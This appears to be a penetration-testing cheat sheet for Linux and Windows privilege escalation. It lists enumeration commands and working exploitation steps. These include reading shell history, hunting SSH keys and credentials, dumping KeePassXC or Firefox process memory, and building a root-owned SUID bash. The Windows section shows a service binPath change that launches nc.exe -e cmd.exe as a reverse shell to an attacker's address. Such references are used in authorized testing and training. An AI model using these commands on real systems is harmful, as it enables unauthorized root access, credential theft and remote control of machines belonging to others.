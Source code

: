 # Linux

## linpeas

Always run this when possible.
`/usr/share/peass/linpeas/linpeas.sh`

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`export -p` and `env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r / 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
`ss -tlpn` Show all listening ports and processes.
`netstat -ant` Show all TCP services.
`find -perm -o=w 2>/dev/null` Find world-writable files.
## Exploitation

Possible Simple Vector via Sudo
`sudo su`

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

Path Variable Hijacking (e.g., for cron job binary without absolute path)
`export PATH=/tmp:$PATH`

### rbash Breakout

Literally just spawn a different shell. Use GTFOBins if needed.

# Windows

## winPEAS

Always run this when possible.
`/usr/share/peass/winpeas/winPEAS.bat`

## Enumeration

Net User Groups
`net user username`

Whoami Groups
`whoami /groups`

Read PowerShell History
`type c:\users\username\appdata\roaming\microsoft\windows\powershell\psreadline\consolehost_history.txt`

Enumerate Services (even when sc.exe is denied permission)
`reg query "HKLM\System\CurrentControlSet\Services"`

Get Service Details (sc.exe)
`sc.exe qc servicename`

Get Service Details (registry)
`reg query "HKLM\System\CurrentControlSet\Services\servicename"`

List Processes
`get-process`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

## Exploitation

Service Binary Path Revshell
```
Users who are in the "Server Operators" group can modify, start, and stop system services.

Example of revshell via service binary path (e.g., vss service):

sc.exe config servicename binPath="c:\users\username\nc.exe -e cmd.exe ipaddress port"

nc -lvnp port

sc.exe stop servicename
sc.exe start servicename

WARNING: The above shell is unstable and will probably die after seconds.
Use meterpreter instead.
```
